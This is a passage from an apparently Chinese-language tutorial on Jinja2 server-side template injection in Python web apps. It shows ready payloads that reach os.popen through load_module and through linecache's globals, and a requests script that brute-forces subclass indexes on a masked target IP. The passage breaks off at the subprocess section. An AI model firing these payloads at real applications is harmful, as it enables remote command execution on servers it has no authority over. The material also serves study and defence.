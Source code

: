 构造如下payload即可执行命令：

```python
{{[].__class__.__base__.__subclasses__()[69]["load_module"]("os")["popen"]("ls /").read()}}
```

### 寻找 linecache 函数执行命令

linecache 这个函数可用于读取任意一个文件的某一行，而这个函数中也引入了 os 模块，所以我们也可以利用这个 linecache 函数去执行命令。

首先编写脚本遍历目标Python环境中含有 linecache 这个函数的子类的索引号：

```python
import requests

headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36'
}

for i in range(500):
    url = "http://47.xxx.xxx.72:8000/?name={{().__class__.__bases__[0].__subclasses__()["+str(i)+"].__init__.__globals__}}"

    res = requests.get(url=url, headers=headers)
    if 'linecache' in res.text:
        print(i)

# 得到一堆子类的索引:
168
169
203
206
207
208
...
```

随便挑一个子类构造payload即可：

```python
{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__['linecache']['os'].popen('ls /').read()}}

{{[].__class__.__base__.__subclasses__()[168].__init__.__globals__.linecache.os.popen('ls /').read()}}
```

### 寻找 subprocess.Popen 类执行命令

从python2.4版本开始，可以用 subprocess 这个模块来产生子进程，并连接到子进程的标准输入/输出/错误中去，还可以得到子进程的返回值。

subprocess 意在替代其他几个老的模块或者函数，比如：os.system、os.popen 等函数。

首先编写脚本遍历目标Python环境中含有 linecache 这个函数的子类的索引号：
